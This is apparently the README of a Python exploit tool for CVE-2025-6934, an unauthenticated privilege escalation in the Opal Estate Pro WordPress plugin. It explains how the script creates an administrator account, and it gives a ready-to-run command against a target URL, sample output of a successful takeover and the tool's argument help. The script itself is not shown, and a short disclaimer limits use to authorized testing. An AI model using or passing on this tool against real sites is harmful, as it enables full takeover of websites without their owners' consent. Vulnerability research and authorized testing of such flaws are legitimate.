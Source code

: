 # 🛡️ CVE-2025-6934 - Unauthenticated Privilege Escalation in Opal Estate Pro

## 📝 Description

The **Opal Estate Pro – Property Management and Submission** plugin for WordPress, used by the **FullHouse - Real Estate Responsive WordPress Theme**, is vulnerable to **Privilege Escalation** in all versions up to and including **1.7.5**.


---

- **CVE ID:** CVE-2025-6934  
- **CVSS Score:** 9.8 (Critical)  
- **Published:** June 30, 2025

---

## ⚙️ Script Information

This Python exploit automates the privilege escalation process by:

- Verifying the vulnerable plugin version via `readme.txt`.
- Fetching the required **nonce** from the registration page.
- Sending a crafted registration request to gain **Administrator access**.

---

## 🚀 Usage Example

```bash
python CVE-2025-6934.py -u http://target-site.com/login-default/ -mail NxploitBot@gmail.com -password nxp1234
```

---

## 📤 Sample Output

```
[•] Plugin Version Check:
    [+] Vulnerable version detected: 1.7.5

[•] Exploit Attempt Started
    [+] Nonce Found: 70dd70630b
    [+] HTTP Status: 200

[✔] Exploit Successful!
    --------------------------
    Username : nxploitedadmin
    Email    : NxploitBot@gmail.com
    Password : nxp1234
    Role     : administrator
    --------------------------

Exploit By: Khaled_alenazi (Nxploited) | https://github.com/Nxploited
```

---

## 🛠️ Arguments & Help

```bash
usage: CVE-2025-6934.py [-h] -u URL -mail NEWMAIL -password NEWPASSWORD

CVE-2025-6934 Exploit by Khaled Alenazi (Nxploited)

options:
  -h, --help              show this help message and exit
  -u, --url URL           Target URL (e.g., http://site.com/path/)
  -mail, --newmail NEWMAIL
                          Email to register as admin
  -password, --newpassword NEWPASSWORD
                          Password for new admin user
```

---

## ⚠️ Disclaimer

This script is for **educational and authorized security testing** purposes only.  
Unauthorized use of this tool against targets without consent is strictly prohibited.

---

**_By: Khaled_alenazi (Nxploited)_**

